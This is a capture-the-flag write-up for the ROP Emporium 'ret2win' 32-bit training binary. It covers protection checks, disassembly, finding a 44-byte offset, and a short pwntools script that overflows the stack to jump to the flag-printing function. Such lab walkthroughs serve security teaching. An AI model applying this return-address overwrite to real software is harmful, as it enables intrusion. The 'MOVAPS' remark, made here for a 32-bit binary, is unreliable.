

**ROP Emporium - ret2win (32-bit)**

## **Gathering information about file**


Confirmed that file is 32 bit. Now we can check protections of that ELF.


As we can see NX bit is set, so we are not allowed any machine code in the stack. However stack canary is turned off, so there is possibility of making buffer overflow.


We got segmentaion fault, so we have buffer overflow vulnerability here.

## **Reversing ret2win**

Now we need to look around our binary - check what functions are here, what are they doing etc. To do this we will utilize pwndbg.


As you can see there are 2 interesting functions: `pwnme` and `ret2win`. Let's disassemble them using `radare2`.


*`pwnme()`:*


This function is responsible for providing some information to a user and receiving input from user. There is nothing interesting here.


*`ret2win()`:*


This function is the most interesting, because it is responsible for printing flag. Now let's look at `main()` function, because we need to know what tactic should we take to get a flag.


There is no calling for `ret2win` function. So our goal is to utlizie buffer overflow vulnerability to jump to `ret2win` function.


## **Finding offset**

Let's generate some pattern to use it on our vulnerable binary.


EIP register was overwriten with `0x6161616c ('laaa')`, we can use `cyclic -o <EIP>`. 





So offset value is 44.


## **Exploitation**

### **FOR UBUNTU USERS**

If you are doing this CTF on Ubuntu you need to add additional return value due to MOVAPS issue. To get this additional value you can use ROPGadget.


```
ROPgadget --binary ./ret2win32 --ropchain
```


Let's write `ret` value: 0x0804837e.


### **Writing exploit**

```python
from pwn import *

elf = ELF("ret2win32")
info("%#x target", elf.symbols.ret2win)
io = process(elf.path)
ret2win = p32(elf.symbols.ret2win)
payload = b"A"*44 + p32(0x0804837e) + ret2win
io.sendline(payload)
io.interactive()
```

### **Running exploit**


We properly got a flag.

